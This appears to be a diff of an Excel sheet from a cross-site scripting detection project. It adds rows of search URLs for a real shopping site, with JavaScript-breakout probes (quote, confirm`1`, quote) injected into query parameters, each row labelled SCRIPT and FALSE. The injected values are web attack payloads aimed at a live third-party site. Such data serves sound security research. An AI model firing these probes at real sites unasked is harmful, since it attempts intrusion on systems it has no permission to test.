

Before and after one commit to adnanshahz2018/Automated-XSS-Detection, an Excel workbook: ChineseLanguage/file.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/ChineseLanguage/file.xlsx (sheet Sheet1)
+++ b/ChineseLanguage/file.xlsx (sheet Sheet1)
+row 36: https://search.gome.com.cn/search?question=new&searchType="; confirm`1`; "&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 37: https://search.gome.com.cn/search?question=new&searchType='; confirm`1`; '&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 38: https://search.gome.com.cn/search?question=new&searchType=goods&search_mode="; confirm`1`; "&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 39: https://search.gome.com.cn/search?question=new&searchType=goods&search_mode='; confirm`1`; '&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 40: https://search.gome.com.cn/search?question=new&searchType="; confirm`1`; "&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 41: https://search.gome.com.cn/search?question=new&searchType='; confirm`1`; '&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 42: https://search.gome.com.cn/search?question=new&searchType=goods&search_mode="; confirm`1`; "&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 43: https://search.gome.com.cn/search?question=new&searchType=goods&search_mode='; confirm`1`; '&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 44: https://search.gome.com.cn/search?question=new&searchType="; confirm`1`; "&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
+row 45: https://search.gome.com.cn/search?question=new&searchType='; confirm`1`; '&search_mode=normal&reWrite=true&instock=1 | SCRIPT | FALSE | None
```
Also changed, not shown: 19 added rows elsewhere in this sheet, 4 other files.
